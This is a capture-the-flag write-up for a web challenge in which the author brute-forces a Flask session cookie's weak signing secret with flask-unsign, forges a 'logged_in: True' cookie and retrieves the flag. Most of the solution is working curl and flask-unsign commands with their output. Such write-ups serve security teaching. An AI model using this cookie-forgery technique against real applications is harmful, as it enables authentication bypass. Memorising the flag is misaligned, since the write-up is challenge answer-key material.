 # Genshin Code

**Challenge Category: Web** <br />
**Challenge Points: 500**

## Challenge Description

Bro said I can get 500 free rolls if I can log in to the administrator accounts. But I need to make sure my log in cookie is correct first...

`genshin.nypinfosec.com`

## Analysis

### 1. Login Form

Sending a GET request to the domain presents us a normal login form, with attributes `action="/login"` and `method="POST"`.

```sh
$ curl https://genshin.nypinfosec.com
```

```html
<form id="sign-up-form" action="/login" method="POST">
  <div class="form-group my-3">
    <label for="email">Username</label>
    <input
      type="text"
      class="form-control"
      name="username"
      placeholder="Enter Username"
    />
  </div>
  <div class="form-group my-3">
    <label for="password">Password</label>
    <input
      type="password"
      class="form-control"
      name="password"
      placeholder="Password"
    />
  </div>
  <div class="button-container">
    <button type="submit">Log In</button>
  </div>
</form>
```

### 2. Send Random Login Credentials

Since we know the login endpoint is at `/login`, we can attempt to login using a random `username` and `password` combination to see what we get.

```sh
$ curl -s -X POST -d "username=nyp&password=ctf" https://genshin.nypinfosec.com/login
```

```html
<!DOCTYPE html>
<html lang="en">
  <title>Redirecting...</title>
  <h1>Redirecting...</h1>
  <p>
    You should be redirected automatically to the target URL:
    <a href="/flag">/flag</a>. If not, click the link.
  </p>
</html>
```

This doesn't look right. No way did we supply some random `username` and `password` and we get logged in.

In the challenge description, they hinted something to do with cookies. Let's check the headers received.

```sh
$ curl -s -X POST -d "username=nyp&password=ctf" https://genshin.nypinfosec.com/login -v
```

```diff
  *   Trying 172.67.146.217:443...
  * Connected to genshin.nypinfosec.com (172.67.146.217) port 443 (#0)
  ...[truncated]...
  > POST /login HTTP/2
  > Host: genshin.nypinfosec.com
  > user-agent: curl/7.88.1
  > accept: */*
  > content-length: 25
  > content-type: application/x-www-form-urlencoded
  >
  ...[truncated]...
  < HTTP/2 302
  < date: Sun, 24 Dec 2023 15:21:30 GMT
  < content-type: text/html; charset=utf-8
  < location: /flag
  < vary: Cookie
+ < set-cookie: mihoyo_admin=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I; HttpOnly; Path=/
  ...[truncated]...
  <
  <!DOCTYPE html>
  <html lang="en">
    <title>Redirecting...</title>
    <h1>Redirecting...</h1>
    <p>
      You should be redirected automatically to the target URL:
      <a href="/flag">/flag</a>. If not, click the link.
    </p>
  </html>
  * Connection #0 to host genshin.nypinfosec.com left intact
```

As hinted, a cookie was set in the response.

### 3. The `/flag` Endpoint

We'll use the cookie from before and try the `/flag` endpoint as redirected now.

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I" https://genshin.nypinfosec.com/flag
```

```html
<!DOCTYPE html>
<html lang="en">
  <title>403 Forbidden</title>
  <h1>Forbidden</h1>
  <p>
    You don&#39;t have the permission to access the requested resource. It is
    either read-protected or not readable by the server.
  </p>
  * Connection #0 to host genshin.nypinfosec.com left intact
</html>
```

As expected, the cookie issued from the server does not work.

### 4. The Cookie Issued

The cookie issued by the server resembles much of a JWT token. We can try to decode it and see what is inside.

![JWT Decode](../.files/web_genshin_code.png "JWT Decode")

We definitely get something back. But, this token doesn't seem up-to-spec with [RFC 7519](https://datatracker.ietf.org/doc/html/rfc7519) because the payload is in the header, and there is no header to begin with.

```diff
### DECODED HEADER ###
+ Expected: {"typ":"jwt","alg":"HS256"}
- Decoded:  {"logged_in":false}

### DECODED PAYLOAD ###
+ Expected: {"logged_in":false}
- Decoded:  "e�Dv"
```

## Solution

1. We know that we must authenticate via some sort of a JWT token cookie.
2. We know that the JWT token supplied is out-of-spec and can't be manipulated without the right tools.
3. After much research, this out-of-spec JWT token is actually a Flask session token.
4. Since we don't know the secret used to sign the token, let's install the right tools for bruteforcing.

```sh
pip3 install flask-unsign flask-unsign[wordlist]
```

3. Decrypt the issued Flask session token using bruteforce

```sh
$ flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZYhMeg.gkzUDUfnJ_8YT7OXeqL-iKg1Q2I" --wordlist flask_unsign_wordlist/wordlists/all.txt
```

```
[*] Session decodes to: {'logged_in': False}
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2432): -----BEGIN PRIVATE KEY--------
[+] Found secret key after 19584 attemptsyyew6kIByris
'password'
```

4. Change the `logged_in` field to `True` and sign the new Flask session token with the same key.

```sh
$ flask-unsign --sign --cookie "{'logged_in':True}" --secret password
```

```
eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M
```

5. Use the manipulated Flask session token in the request back to the server

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M" https://genshin.nypinfosec.com/flag | html2text -
```

```
       Damn You Are This Good...     "NYP{fL@sK_s3ss1On    _m@N1pulAT10N}"
```

We found the flag. Let's cleanup the output a little.

```sh
$ curl -s --cookie "mihoyo_admin=eyJsb2dnZWRfaW4iOnRydWV9.ZYhT-Q.vysFmPznT24skoxe8B7ptQvd33M" https://genshin.nypinfosec.com/flag | html2text - | tr -d " " | grep -o "NYP{.*}"
```

```
NYP{fL@sK_s3ss1On_m@N1pulAT10N}
```

## Additional Read

- [Baking Flask cookies with your secrets](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)
